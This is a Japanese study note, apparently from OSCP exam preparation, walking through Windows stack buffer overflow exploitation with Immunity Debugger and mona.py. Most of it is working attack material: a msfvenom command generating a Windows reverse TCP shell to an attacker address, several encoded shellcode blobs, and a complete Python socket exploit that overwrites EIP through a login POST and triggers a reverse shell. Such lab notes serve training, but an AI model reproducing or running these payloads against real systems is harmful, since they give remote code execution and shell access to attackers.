




# BufferOverflow

### 流れ

* main関数の場所を探す
  * コードがわかっていればアセンブラペインで右クリックして`search for`→ `All referenced text strings`でstdoutしている箇所の文章を探し特定し、脆弱性がある箇所にブレークポイントを設定する。
  * コードがわかっていなくてもそれらしい箇所を特定しbreakポイントを打つ
* msf_patternでバイト文字列を作り入力として渡す。EIPが上書きされるまで文字列を増やしながら確認する
* ESPのアドレスを確認しつつ、バッファーの容量を確認する。300~400バイト程あればmsfvenomのシェルが格納できる
* ESPにリバースシェルを格納する前提で、EIPにJMP ESPを行うアドレスを指定したい。mona.pyを使ってJMPESPでかつDEP,ASLR、CFGがfalseでかつアドレスに`\x00`を含んでいないものを見つける
* bad charを特定する
* msfvenomでシェルを作成する
* exploitコードを成形して実行する


### bad characterの出力

```python
for x in range(1, 256):
if x % 2 == 0:
print("\\x" + "{:02x}".format(x), end='')
```

```python
#!/usr/bin/python3

badchars = b""
badchars += b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars += b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars += b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars += b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars += b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars += b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars += b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
badchars += b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars += b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars += b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("exploit.txt", "wb")
f.write(badchars)
f.close
```

```bash
./badchar.py
xxd -g 1 exploit.txt
```


### bad characterの確認

* ​	メモリのロード処理までの時点をbreakpointに設定する`CALL EBX`

* PoCで`\x01~\xFF`までのバイト文字列をメモリにロードさせ、スタックのESP/EBXを右クリックして「Follow in Dump」を選択する。

* 00となっている箇所を見つける

  

* 2回目以降は改めてファイルをopenするのではなく、前回のファイルパスを選択して実行することで前回のbreakpointを引き継いだ状態で開始できる

  

### シェルコードの作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/11.WindowsBufferOverflow]                               
└─$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.119.127 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"
```

```python
#!/usr/bin/python3

shellcode =  b""
shellcode += b"\xda\xc3\xd9\x74\x24\xf4\xbb\xca\x4f\x27\x12"
shellcode += b"\x5f\x33\xc9\xb1\x52\x83\xef\xfc\x31\x5f\x13"
shellcode += b"\x03\x95\x5c\xc5\xe7\xd5\x8b\x8b\x08\x25\x4c"
shellcode += b"\xec\x81\xc0\x7d\x2c\xf5\x81\x2e\x9c\x7d\xc7"
shellcode += b"\xc2\x57\xd3\xf3\x51\x15\xfc\xf4\xd2\x90\xda"
shellcode += b"\x3b\xe2\x89\x1f\x5a\x60\xd0\x73\xbc\x59\x1b"
shellcode += b"\x86\xbd\x9e\x46\x6b\xef\x77\x0c\xde\x1f\xf3"
shellcode += b"\x58\xe3\x94\x4f\x4c\x63\x49\x07\x6f\x42\xdc"
shellcode += b"\x13\x36\x44\xdf\xf0\x42\xcd\xc7\x15\x6e\x87"
shellcode += b"\x7c\xed\x04\x16\x54\x3f\xe4\xb5\x99\x8f\x17"
shellcode += b"\xc7\xde\x28\xc8\xb2\x16\x4b\x75\xc5\xed\x31"
shellcode += b"\xa1\x40\xf5\x92\x22\xf2\xd1\x23\xe6\x65\x92"
shellcode += b"\x28\x43\xe1\xfc\x2c\x52\x26\x77\x48\xdf\xc9"
shellcode += b"\x57\xd8\x9b\xed\x73\x80\x78\x8f\x22\x6c\x2e"
shellcode += b"\xb0\x34\xcf\x8f\x14\x3f\xe2\xc4\x24\x62\x6b"
shellcode += b"\x28\x05\x9c\x6b\x26\x1e\xef\x59\xe9\xb4\x67"
shellcode += b"\xd2\x62\x13\x70\x15\x59\xe3\xee\xe8\x62\x14"
shellcode += b"\x27\x2f\x36\x44\x5f\x86\x37\x0f\x9f\x27\xe2"
shellcode += b"\x80\xcf\x87\x5d\x61\xbf\x67\x0e\x09\xd5\x67"
shellcode += b"\x71\x29\xd6\xad\x1a\xc0\x2d\x26\xe5\xbd\x5a"
shellcode += b"\xc9\x8d\xbf\xa4\x34\xf5\x49\x42\x5c\x19\x1c"
shellcode += b"\xdd\xc9\x80\x05\x95\x68\x4c\x90\xd0\xab\xc6"
shellcode += b"\x17\x25\x65\x2f\x5d\x35\x12\xdf\x28\x67\xb5"
shellcode += b"\xe0\x86\x0f\x59\x72\x4d\xcf\x14\x6f\xda\x98"
shellcode += b"\x71\x41\x13\x4c\x6c\xf8\x8d\x72\x6d\x9c\xf6"
shellcode += b"\x36\xaa\x5d\xf8\xb7\x3f\xd9\xde\xa7\xf9\xe2"
shellcode += b"\x5a\x93\x55\xb5\x34\x4d\x10\x6f\xf7\x27\xca"
shellcode += b"\xdc\x51\xaf\x8b\x2e\x62\xa9\x93\x7a\x14\x55"
shellcode += b"\x25\xd3\x61\x6a\x8a\xb3\x65\x13\xf6\x23\x89"
shellcode += b"\xce\xb2\x54\xc0\x52\x92\xfc\x8d\x07\xa6\x60"
shellcode += b"\x2e\xf2\xe5\x9c\xad\xf6\x95\x5a\xad\x73\x93"
shellcode += b"\x27\x69\x68\xe9\x38\x1c\x8e\x5e\x38\x35"

f = open("exploit.txt", "wb")
f.write(shellcode)
f.close
```

作成後以下コマンドで確認する

```
xxd -g 1 exploit.txt
```


もし上記のpythonコードで`\\x`としてエンコードをしてあげることでプレーンテキスト側に`\x`の文字列を出力させることができる



```python
#!/usr/bin/python3

buf =  ""
buf += "\\xbb\\x73\\xc6\\xa9\\xf3\\xdd\\xc0\\xd9\\x74\\x24\\xf4\\x5a\\x33"
buf += "\\xc9\\xb1\\x31\\x83\\xc2\\x04\\x31\\x5a\\x0e\\x03\\x29\\xc8\\x4b"
buf += "\\x06\\x31\\x3c\\x09\\xe9\\xc9\\xbd\\x6e\\x63\\x2c\\x8c\\xae\\x17"
buf += "\\x25\\xbf\\x1e\\x53\\x6b\\x4c\\xd4\\x31\\x9f\\xc7\\x98\\x9d\\x90"
buf += "\\x60\\x16\\xf8\\x9f\\x71\\x0b\\x38\\xbe\\xf1\\x56\\x6d\\x60\\xcb"
buf += "\\x98\\x60\\x61\\x0c\\xc4\\x89\\x33\\xc5\\x82\\x3c\\xa3\\x62\\xde"
buf += "\\xfc\\x48\\x38\\xce\\x84\\xad\\x89\\xf1\\xa5\\x60\\x81\\xab\\x65"
buf += "\\x83\\x46\\xc0\\x2f\\x9b\\x8b\\xed\\xe6\\x10\\x7f\\x99\\xf8\\xf0"
```


### msfpattern

```
msf-pattern_create -l 800

---
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba
---
```

```python
#!/usr/bin/python3

shellcode = b""
shellcode += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2A"

f = open("exploit.txt", "wb")
f.write(shellcode)
f.close
```

```
msf-pattern_offset -l 800 -q 42306142
---
[*] Exact match at offset 780
---
```


### Immuniti Degugger

各ペインについて




### BufferOverflowコード(ncする場合)

```python
#!/usr/bin/python3

filter = "A" * 1812
eip    = "B" * 4

inputBuffer = filter + eip

shellcode = inputBuffer.encode('utf-8')

f = open("exploit.txt", "wb")
f.write(shellcode)
f.close
```

```bash
cat exploit.txt - | nc 192.168.127.52 5000
```


### BufferOverflowコード(socket)

```python
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  shellcode = ("\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
  "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"
  "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59"
  "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48"
  "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f"
  "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6"
  "\x74\xcd\x79\xd3\x3c\xd5\x9e\xde\xf7\x6e\x54\x94\x09\xa6\xa4"
  "\x55\xa5\x87\x08\xa4\xb7\xc0\xaf\x57\xc2\x38\xcc\xea\xd5\xff"
  "\xae\x30\x53\x1b\x08\xb2\xc3\xc7\xa8\x17\x95\x8c\xa7\xdc\xd1"
  "\xca\xab\xe3\x36\x61\xd7\x68\xb9\xa5\x51\x2a\x9e\x61\x39\xe8"
  "\xbf\x30\xe7\x5f\xbf\x22\x48\x3f\x65\x29\x65\x54\x14\x70\xe2"
  "\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x95\x68\xd2\x03\x62"
  "\x8e\xc9\xf4\xfc\x71\xf2\x04\xd5\xb5\xa6\x54\x4d\x1f\xc7\x3e"
  "\x8d\xa0\x12\x90\xdd\x0e\xcd\x51\x8d\xee\xbd\x39\xc7\xe0\xe2"
  "\x5a\xe8\x2a\x8b\xf1\x13\xbd\xbe\x0e\x1b\x2f\xd7\x12\x1b\x4e"
  "\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\x6b\x57\x2c\x42\x73\x4d\x49"
  "\x44\xff\x62\xae\x0b\x08\x0e\xbc\xfc\xf8\x45\x9e\xab\x07\x70"
  "\xb6\x30\x95\x1f\x46\x3e\x86\xb7\x11\x17\x78\xce\xf7\x85\x23"
  "\x78\xe5\x57\xb5\x43\xad\x83\x06\x4d\x2c\x41\x32\x69\x3e\x9f"
  "\xbb\x35\x6a\x4f\xea\xe3\xc4\x29\x44\x42\xbe\xe3\x3b\x0c\x56"
  "\x75\x70\x8f\x20\x7a\x5d\x79\xcc\xcb\x08\x3c\xf3\xe4\xdc\xc8"
  "\x8c\x18\x7d\x36\x47\x99\x8d\x7d\xc5\x88\x05\xd8\x9c\x88\x4b"
  "\xdb\x4b\xce\x75\x58\x79\xaf\x81\x40\x08\xaa\xce\xc6\xe1\xc6"
  "\x5f\xa3\x05\x74\x5f\xe6")

  filler = "A" * 780
  eip = "\x83\x0c\x09\x10"
  offset = "C" * 4
  nops = "\x90" * 10

  inputBuffer = filler + eip + offset + nops + shellcode
  
  content = "username=" + inputBuffer + "&password=A"

  buffer = "POST /login HTTP/1.1\r\n"
  buffer += "Host: 10.11.0.22\r\n"
  buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += "Accept-Language: en-US,en;q=0.5\r\n"
  buffer += "Referer: http://10.11.0.22/login\r\n"
  buffer += "Connection: close\r\n"
  buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += "Content-Length: "+str(len(content))+"\r\n"
  buffer += "\r\n"
  
  buffer += content

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("10.11.0.22", 80))
  s.send(buffer)
  
  s.close()
  
  print "\nDone did you get a reverse shell?"
  
except:
  print "\nCould not connect!"
```

